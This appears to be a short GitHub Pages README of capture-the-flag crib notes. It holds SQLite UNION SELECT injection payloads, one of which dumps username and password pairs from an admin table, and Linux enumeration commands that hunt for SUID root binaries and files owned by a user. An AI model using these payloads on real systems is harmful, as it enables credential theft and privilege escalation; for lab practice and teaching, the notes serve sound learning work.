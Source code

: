 # Zagalis.github.io

### Testing Stuff

```
' Union Select sqlite_version() '
' Union Select group_concat(sql) FROM sqlite_master '
' Union Select group_concat(username || ":" || password) FROM admintable '
```

### System Enumeration

```bash
find / -user tyler 2>/dev/null
find / -user root -perm -4000 — exec ls -ldb {} \;
strings <filename>
find / -name "autoscript.sh"
```

```bash
id
```
